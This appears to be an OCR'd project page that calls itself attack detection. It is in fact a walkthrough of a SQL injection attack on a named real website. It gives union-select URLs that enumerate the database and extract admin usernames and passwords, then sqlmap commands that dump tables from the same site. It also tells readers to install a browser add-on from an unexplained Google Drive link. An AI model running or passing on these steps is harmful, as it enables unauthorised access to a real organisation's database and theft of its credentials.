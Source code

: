 ➢Application Bypass Attack Detection Web
1.First of all, you have to download Cyberfox Browser using this link https://cyberfox.en.softonic.com/
2.Then download this file https://drive.google.com/file/d/1ZutKbN53P8-fBQLuqNk8sDJ5OaSzIUE8/view
and import in cyberfox
for that open add-on function, then select extension and install add-on from file and choose fox file 
which you downloaded using this link https://drive.google.com/file/d/1ZutKbN53P8-
fBQLuqNk8sDJ5OaSzIUE8/view and import in cyberfox
3.open this link https://www.burobd.org/buro-emergency-disaster-response.php?id=25 in cyberfor and 
execute this query https://www.burobd.org/buro-emergency-disaster-response.php?id=25'
4. https://www.burobd.org/buro-emergency-disaster-response.php?id=25' order by 1,2,3,4,5,6,7,8--+
5. https://www.burobd.org/buro-emergency-disaster-response.php?id=-25' union select all 
1,2,3,4,5,6,7,8--+
6. https://www.burobd.org/buro-emergency-disaster-response.php?id=-25' union select all 
1,(SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEM
A.SCHEMATA),3,4,5,6,7,8--+
7. https://www.burobd.org/buro-emergency-disaster-response.php?id=-25' union select all 
1,(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.
TABLES+WHERE+TABLE_SCHEMA=DATABASE()),3,4,5,6,7,8--+
8. https://www.burobd.org/buro-emergency-disaster-response.php?id=-25' union select all 
1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEM
A.COLUMNS+WHERE+TABLE_NAME=0x61646d696e),3,4,5,6,7,8--+ 9. https://www.burobd.org/buro-emergency-disaster-response.php?id=-25' union select all 
1,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+admin),3,4,5,6,7,
8--+➢Manual SQL-I Attack Detection
➢ In manual sql attack you have to run all queries in kali linux. Open command terminal and follow
this setps.
Step (1)
sqlmap -u https://www.burobd.org/buro-emergency-disaster- response.php?id=25 –dbs
Step (2)
sqlmap -u https://www.burobd.org/buro-emergency-disaster-response.php?id=25 --dbs --
tables -D information_schema
Step (3) sqlmap -u https://www.burobd.org/buro-emergency-disaster-response.php?id=25 --dump 
-D information_schema -T USER_

